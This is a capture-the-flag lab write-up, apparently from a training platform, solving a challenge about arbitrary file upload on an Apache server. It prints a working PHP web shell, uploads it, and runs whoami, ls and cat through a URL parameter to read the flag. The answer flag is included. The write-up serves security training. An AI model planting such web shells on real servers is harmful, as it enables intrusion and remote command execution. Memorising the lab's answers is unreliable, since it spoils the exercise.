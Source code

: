 ﻿![](Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.001.png)

![](Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.002.png)
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">Vulnerable Apache IV </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=200>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Infrastructure Attacks : Apache </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

The target server has not been properly secured against arbitrary file upload and execution vulnerability. 

**Objective:** Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag! 

**Solution: ![ref1]**

**Step 1:** Inspect the web application. 

**URL:** http://43w7l97ax3h9bbwq7pkcnkafd.public2.attackdefenselabs.com/ 

![](Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.004.jpeg)

**Step 2:** Create a simple web shell. 

Save the below given php script as shell.php 

<?php 

$output = shell\_exec($\_GET["cmd"]); echo "<pre>$output</pre>"; 

?> 

![](Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.005.png)

**Step 3:** Upload the webshell to the web server. ![ref1]

Click on the browser button and upload the php script. 

**Step 4:** Click on the hyperlink generated after uploading the php script  ![](Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.006.jpeg)

![](Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.007.jpeg)

**URL:** http://43w7l97ax3h9bbwq7pkcnkafd.public2.attackdefenselabs.com/uploads/shell.php ![ref1]

![](Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.008.png)

No output was returned since cmd parameter was not specified.  **Step 5:** Execute system commands through “cmd” GET parameter. **Command:** whoami 

**URL: ![](Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.009.png)**http://43w7l97ax3h9bbwq7pkcnkafd.public2.attackdefenselabs.com/uploads/shell.php?cmd=wh oami** 

**Step 6:** Enumerate files stored on the web server. **Command:** pwd 

**URL: ![ref1]**http://43w7l97ax3h9bbwq7pkcnkafd.public2.attackdefenselabs.com/uploads/shell.php?cmd=pw d 

![](Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.010.png)

**Command:** ls -l /app/ 

**URL:** http://43w7l97ax3h9bbwq7pkcnkafd.public2.attackdefenselabs.com/uploads/shell.php?cmd=ls+ -l+/app/ 

![](Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.011.png)

The flag location is revealed. 

**Step 7:** Retrieve the flag 

**Command:** cat /app/127331690c-flag 

**URL: ![ref1]**http://43w7l97ax3h9bbwq7pkcnkafd.public2.attackdefenselabs.com/uploads/shell.php?cmd=cat +/app/127331690c-flag 

![](Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.012.png)

**Flag:** 6c2bbb8bb50605295bcb2ead4f308eed 

**References:  ![ref2]**

1\. Apache httpd (<https://httpd.apache.org/>)  

[ref1]: Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.003.png
[ref2]: Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.013.png

